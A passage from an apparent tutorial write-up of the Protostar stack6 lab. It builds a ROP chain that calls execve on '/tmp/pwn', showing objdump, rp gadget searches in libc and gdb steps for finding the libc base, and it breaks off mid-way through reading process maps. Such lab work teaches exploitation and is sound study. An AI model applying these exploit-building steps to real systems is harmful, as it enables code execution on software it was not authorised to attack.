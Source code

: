 First we need to get the arguments to the `execve` call into memory. We just need the single array of `char*` passed into the second argument of `execve` as shown above with the last `char*` being NULL. The first argument will point to the first element in the array, whist the third argument will point to the last element in the array.

We could just pass this in on the stack as arguments to the program, but the address of the arguments would be liable to change even without ASLR. Intead, we will pass them in as part of our buffer and arrange them in memory ourselves. We will use the data section to store these parameters:

	:::bash
	user@protostar:~$ objdump -D /opt/protostar/bin/stack6 | grep __data
	08049710 <__data_start>:

Now we need some ROP gadgets. There's a tool for those, or rather a number of tools for those.

I'm going to go ahead and use `rp` from [here](https://github.com/0vercl0k/rp) because I can use a precompiled binary to avoid any dependency issues and because I'm a C++ fan.

#### File path 

Let's start by getting our file path `/tmp/pwn` into program memory. Here are the steps broken down along with the gadgets we will need to find:

1. Load 4 bytes of our arguments into some register. We will need a `pop r1; ret` gadget here.
2. Move the contents of that register into memory. We will need a `pop r2; ret` to load the target memory address and then a `mov [r2] r1; ret` to do the move.
3. Repeat steps 1 and 2 for successive 4 byte chunks, updating the address `[r2]` each time. We can also add a `NULL` on the end to terminate the string and provide the `NULL` for arguments two and three of the call to `execve`.

Let's look for these gadgets. There's not alot to go on in the `stack6` binary itself, so we look in `libc` as this is also linked in. We'll start with the `mov`, so we an identify which register we need to pop into, then the two `pop` gadgets.

	:::bash
	user@protostar:~$ ./rp-lin-x86 -f /lib/libc-2.11.2.so --rop=4 --unique | grep " mov dword \[ecx\]"
	...
	0x00074997: mov dword [ecx], edx ; ret  ;  (1 found)
	...
	user@protostar:~$ ./rp-lin-x86 -f /lib/libc-2.11.2.so --rop=4 --unique | grep "pop edx ; ret"
	...
	0x00001a9e: pop edx ; ret  ;  (6 found)
	...
	user@protostar:~$ ./rp-lin-x86 -f /lib/libc-2.11.2.so --rop=4 --unique | grep "pop ecx ; ret"
	...
	0x0013519d: pop ecx ; ret  ;  (1 found)
	...

We can get the absolute address of this by adding it to the base address of `libc` which we can get from `/proc/<pid>/maps` as shown below.  

	:::bash
	user@protostar:~$ gdb -q /opt/protostar/bin/stack6
	Reading symbols from /opt/protostar/bin/stack6...done.
	gdb$ b main
	Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
	gdb$ r
	Breakpoint 1, main (argc=0x1, argv=0xbffff874) at stack6/stack6.c:27
	27	stack6/stack6.c: No such file or directory.
		in stack6/stack6.c
	gdb$ info proc
	process 2080
	cmdline = '/opt/protostar/bin/stack6'
	cwd = '/home/user'
	exe = '/opt/protostar/bin/stack6'
	gdb$ shell
	$ cat /proc/2080/maps
	08048000-08049000 r-xp 00000000 00:10 3537       /opt/protostar/bin/stack6